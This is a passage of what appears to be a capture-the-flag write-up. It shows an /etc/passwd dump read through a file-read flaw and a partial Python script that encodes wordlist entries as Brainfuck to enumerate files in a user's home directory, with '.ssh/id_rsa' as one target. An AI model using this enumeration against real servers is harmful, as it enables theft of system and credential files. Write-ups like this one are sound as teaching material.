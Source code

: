```
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash
marla:x:1001:1001:marla,,,:/home/marla:/bin/marla
tyler:x:1002:1002:tyler,,,:/home/tyler:/bin/tyler
robert:x:1003:1003:robert,,,:/home/robert:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
```

Bingo!

So we are able to read files as `tyler` but we already looked around on the server as `jack` so we are interested in the files in tyler's home directory. We can not use tools like dirbuster because it crashes the server so my solution was to come up with a simple python script to encode all wordlist entries to Brainfuck, request the file and save it:

```python
#!/usr/bin/env python3

import http.client
from time import sleep

def sf(filename, data):
    with open(filename, 'wb') as f:
        f.write(data)

def rf(filename):
    with open(filename, 'rt') as f:
        return f.readlines()

wordlist = "/usr/share/wordlists/dirb/common.txt"

def char2bf(char):
    result_code = ""
    ascii_value = ord(char)
    factor = ascii_value / 10
    remaining = ascii_value % 10
    result_code += "{}".format("+" * 10)
    result_code += "["
    result_code += ">"
    result_code += "{}".format("+" * int(factor))
    result_code += "<"
    result_code += "-"
    result_code += "]"
    result_code += ">"
    result_code += "{}".format("+" * remaining)
    result_code += "."
    result_code += "[-]"
    return result_code

def str2bf(string):
    result = ""
    for char in string:
        result += char2bf(char)
    return result

words = rf(wordlist)
counter = 1

#  words = ['.ssh/id_rsa']

for w in words:
    w = w.strip()
```
